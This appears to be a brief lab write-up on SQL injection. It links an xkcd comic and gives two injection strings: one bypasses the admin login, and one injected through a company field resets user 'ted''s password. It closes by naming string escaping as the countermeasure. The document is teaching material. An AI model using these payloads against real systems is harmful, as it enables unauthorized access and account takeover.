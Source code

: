 # SQL Injection

### Funny Cartoon

Exploits of a Mom

(from https://xkcd.com/327/ )

![](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)

### task1

login with username

```sql
admin') -- '
```

### task2

set company as below

```sql
', pass=sha1('1') where name='ted' -- '
```
#### task3

countermeasure, escape string company.

```php
mysql_real_escape_string()
```
